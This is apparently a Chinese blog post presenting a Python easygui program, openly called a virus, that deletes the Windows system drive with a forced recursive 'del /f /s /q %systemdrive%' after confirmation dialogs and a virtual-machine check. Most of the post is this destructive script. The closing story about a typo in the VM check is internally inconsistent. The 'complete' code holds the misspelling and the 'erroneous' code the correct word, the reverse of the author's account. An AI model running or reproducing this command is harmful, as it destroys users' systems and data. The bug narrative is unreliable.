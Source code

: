 ```yaml
---
title: 关于我在编写无痕删除系统时遇到的坑
date: 2022-04-29 21:39:00.107
updated: 2022-07-12 17:58:35.914
url: https://vmtask.com/archives/guan-yu-wo-zai-bian-xie-wu-hen-shan-chu-xi-tong-shi-yu-dao-de-keng
cover: https://s3.bmp.ovh/imgs/2022/03/161af9bf3e7a266f.jpg
categories: 
- 默认
- 随笔
tags: 
---
```


# 关于我在编写无痕删除系统时遇到的坑

```python

import easygui  # 导库

import os

import sys

anniu = easygui.buttonbox("此软件为可以破坏系统的病毒，请谨慎运行\n请务必在虚拟机内运行\n如电脑系统被破坏，作者不承担责任", "无痕删除系统盘", ["同意协议", "退出程序"])

if(anniu == "同意协议"):

    easygui.msgbox("正在检查您的电脑是否为虚拟机")

    list = os.popen('Systeminfo').read()

    if("Virutal" not in list):

        easygui.msgbox("您的电脑不是虚拟机，禁止运行")

    else:

        key = easygui.buttonbox("按下按钮后，程序将立刻运行" , "最后一次提醒" , ["确认" , "退出"])

        if(key == "确认"):

            os.popen("del /f /s /q %systemdrive%\\")

        else:

            sys.exit()

else:

    sys.exit()

```

这是完整代码：

这个程序的虚拟机检查最初是有Bug的，第一次测试我在虚拟机和实体机都测试了一遍，结果就是在虚拟机，程序得到的结果都是实体机环境。

错误代码：

```python

if(anniu == "同意协议"):

    easygui.msgbox("正在检查您的电脑是否为虚拟机")

    list = os.popen('Systeminfo').read()

    if("Virtual" not in list):

        easygui.msgbox("您的电脑不是虚拟机，禁止运行")

```

最后我才发现，原来是我"Virutal"成了“Virtual"

所以大家以后写代码时一点要仔细检查，否则可能会出很大的错误

